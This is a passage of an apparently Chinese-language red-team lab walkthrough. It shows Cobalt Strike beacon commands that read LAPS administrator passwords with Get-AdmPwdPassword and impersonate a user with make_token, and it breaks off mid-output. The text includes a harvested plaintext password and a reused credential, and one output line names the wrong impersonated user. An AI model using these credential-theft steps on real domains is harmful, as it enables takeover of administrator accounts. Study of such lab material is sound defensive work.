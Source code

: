 beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are DEV\nlamb
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 183 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : fk43i9785W8Cw5
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```

1661471925451.png


 DEV\bfarmer不在上面三个组的任何一个，所以读取的时候密码是空的
```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are DEV\bfarmer
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 38 bytes
[+] received output:
wkstn-1

beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 405 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```

1661471899909.png

jking在DEV\1st Line Support组

1661472073529.png


在WKSTN-2上make_token以后也可以看到密码
```
beacon> make_token DEV\jking Purpl3Drag0n
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 40 bytes
[+] Impersonated DEV\nlamb
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 183 bytes
[+] received output:
#< CLIXML
